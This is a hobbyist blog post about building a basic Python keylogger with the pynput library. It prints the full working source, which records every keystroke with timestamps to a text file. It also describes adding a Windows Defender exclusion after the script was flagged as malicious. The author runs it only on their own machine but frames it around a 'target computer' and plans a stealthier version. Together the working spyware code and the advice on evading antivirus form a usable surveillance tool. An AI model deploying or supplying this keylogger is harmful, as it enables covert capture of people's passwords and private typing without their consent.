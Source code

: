 ```yaml
---
title: "Making a Keylogger"
date: 2022-04-14
categories: Projects
---
```


The *keylogger*. A big, bad, sinister program responsible for stealing all your login credentials and, subsequently, your information. Many criminals or those with criminal intent will sometimes call upon the use of a program such as this in a bid to gain access to a network or computer system. For the uninitied, the task of creating and deploying a keylogger may seem like a complicated task but, in reality, it's actually quite simple to get one up and running.

Before we begin, I must give credit to **CyberFault** who made the [YouTube video](https://www.youtube.com/watch?v=QuH_9OGrVt4) from which I discovered this idea for a project from and **Himanshu Tyagi**, who authored [the initial post referenced in CyberFault's video](https://www.codeitbro.com/how-to-create-keylogger-in-python/).

***

Now, I'll be honest: at the time of writing this post, I don't really know anything about making a keylogger, much less creating one in Python (even though I am a little bit familiar with the coding language). But, one doesn't need programming knowledge or skills in order to make something. A little technical and computer know-how goes a long way.

Since Tyagi's post already covers how to setup one's computer with Python libraries, I won't go into that. However, here's the code that I'll be using:

```
{
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir = r"C:/Users/<username>"
logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
   logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
}
```

Right off the bat, there are two fields of interest that would change how and where the output file from this script is saved to:

* `log_dir = r"C:/Users/<username>"`
* `(log_dir + "keyLog.txt")`

The first piece of code tells the script where to save to while the second tells it what filename and extension to use. Both of these can be changed to whatever but, since I just want to try out the code, I'll modify the directory to match my machine's and allow the file to be written as `keyLog.txt`. Whether in a text editor or an IDE, the next thing is to save this script. I'll give it the inconspicious name of `Keylogger.py`.

![Uh oh](/blastermans-base/assets/images/projects/keylogger/windefendercatch.png)

Let's see what this is:

![WindefenderDesc](/blastermans-base/assets/images/projects/keylogger/windefenderdesc.png)

😂

Seems like Windows Defender thinks the file is malicious so I'll need to make an exception for it.

***

With that saved (and excluded from the antivirus), it's time to run the program. This can be done by simply navigating to the script's directory and executing it through Python:

`py.exe .\Keylogger.py`

Now the file running in the terminal. Since it's capturing my keystrokes, the only thing remaining is to type!

***

After a while of typing, let's see what happened:

![Logfile found](/blastermans-base/assets/images/projects/keylogger/logfiledirectory.png)

Neato. The output log was saved the specified directory. What's inside?

![Tada](/blastermans-base/assets/images/projects/keylogger/keylog.png)

And there we have it. All of my keystrokes were recorded and saved to this text file. From it, I can see what character or command was pressed was captured and the time it was sent. Pretty cool stuff. 😎

***

Admittedly, while I was able to successfully create, run, and view the results of this Python keylogger, it relies on Python libraries that must be already by installed on the target computer. However, it was fun making this script to test and see in action a program that actively records every keystroke sent by the user. 

In the future, I work on making a keylogger that doesn't rely on extra libraries or binaries but instead utilizes programming that comes bundled with the target OS. That would be a more independent program than this one and, thus, more awesome. With that, it's onto the next project...


Thanks for reading!